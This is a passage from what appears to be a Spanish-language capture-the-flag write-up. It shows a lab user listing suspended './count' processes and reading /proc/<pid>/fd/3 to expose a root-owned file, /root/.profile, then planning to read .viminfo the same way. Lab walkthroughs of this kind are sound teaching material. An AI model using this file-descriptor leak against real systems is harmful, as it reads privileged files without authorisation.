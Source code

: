 No nos deja leer... en la carpeta /root vimos un .profile... vamos a ver si de aquí si nos dejase leer

```bash
dasith@secret:/opt$ ps auxww | grep ./count
dasith      2286  0.0  0.0   2488   592 pts/0    S+   08:40   0:00 /opt/./count
dasith      2323  0.0  0.0   2488   584 pts/1    T    08:54   0:00 ./count
dasith      2380  0.0  0.0   2488   528 pts/1    T    09:06   0:00 ./count
dasith      2413  0.0  0.0   6432   740 pts/1    S+   09:06   0:00 grep --color=auto ./count
dasith@secret:/opt$ cat /proc/2323/fd/3
cat: /proc/2323/fd/3: Permission denied
dasith@secret:/opt$ head /proc/2323/fd/3
head: cannot open '/proc/2323/fd/3' for reading: Permission denied
dasith@secret:/opt$ head /proc/2386/fd/3
head: cannot open '/proc/2386/fd/3' for reading: No such file or directory
dasith@secret:/opt$ head /proc/2380/fd/3
# ~/.profile: executed by Bourne-compatible login shells.

if [ "$BASH" ]; then
  if [ -f ~/.bashrc ]; then
    . ~/.bashrc
  fi
fi

mesg n 2> /dev/null || true

```

Vemos que ejecuta algo pero... .viminfo también se podía leer así que vamos a probar ahora con ese

![](2022-06-29-11-13-33.png)
